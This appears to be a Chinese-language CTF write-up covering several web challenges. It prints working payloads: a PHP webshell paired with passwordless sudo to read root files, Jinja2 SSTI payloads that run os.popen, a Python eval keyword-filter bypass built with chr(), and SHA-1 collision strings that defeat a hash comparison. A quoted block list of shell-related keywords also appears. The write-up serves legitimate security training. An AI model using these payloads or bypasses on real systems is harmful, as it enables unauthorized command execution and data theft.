


## Web

### Cookie Monster Secret Recipe

任意登录后发现**Cookie**字段


进行**URL解码**和**Base64解码**


### head-dump

在网页源码中发现一个**/api-docs**路由


进入之后执行一下**/heapdump**的`GET`方法，发现响应的是一个下载链接


用**notepad++**打开，搜索字符串


### n0s4n1ty 1

没有任何检验的上传，可以直接传一个**PHP**木马


使用**sudo -l**检查，发现**www-data**可以执行任何命令，无需密码

```
Matching Defaults entries for www-data on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```

如下构造

```
/uploads/webshell.php?cmd=sudo cat /root/flag.txt
```



### SSTI1

如下构造即可

```
{{lipsum.__globals__.os.popen('ls').read()}}
{{lipsum.__globals__.os.popen('cat flag').read()}}
```



### WebSockFish

随便移动一个小兵向前一步

然后抓包，修改为：**eval -10000000000000**


### 3v@l

在网页源码中看到过滤情况

```
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
```

尝试引入模块，使用加号拼接，可以看到成功找到**os**模块


尝试调用**popen**查看目录


可以通过**chr**函数来绕过关键字符

```
__import__('o'+'s').popen('l'+'s' + chr(32) + chr(47)).read()
```


```
__import__('o'+'s').popen('c'+'a'+'t' + chr(32) + chr(47)+'f'+'l'+'a'+'g'+'.'+'t'+'x'+'t').read()
```


### SSTI2

构造的目标如下

```
{{lipsum.__globals__.__getitem__('os').popen('ls').read()}}
```

过滤比较严格，用**set**来进行拼接字符串

```
//获取下划线 _
{{line}}

//获取双下划线 __
{{dbline}}

//获取 __globals__
{{glbs}}

//__getitem__
{{gtem}}

//all
{{lipsum|attr(glbs)|attr(gtem)('os')|attr(pp)(cmd)|attr(rd)()}} 
```


读取**flag**即可

```
{{lipsum|attr(glbs)|attr(gtem)('os')|attr(pp)(cmd)|attr(rd)()}} 
```


### Apriti sesamo

**emacs** 备份文件名一般会在后面加一个**~**


```
<?php
if (isset($_POST['username']) && isset($_POST['pwd'])) {
    $yuf85e0677 = $_POST['username'];
    $rs35c246d5 = $_POST['pwd'];

    if ($yuf85e0677 == $rs35c246d5) {
        echo "<br><!-- Security Warning -->";
    } else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents("../foobar");
        } else {
            echo "<br><!-- Security Warning -->";
        }
    }
}
?>
```

可以看到是**SHA1强比较**：[ctf中强md5及sha1碰撞绕过（字符串string型）-CSDN博客](https://blog.csdn.net/weixin_52118430/article/details/123855542)

```
username=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1&pwd=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1
```


### Pachinko

如图连线，然后提交


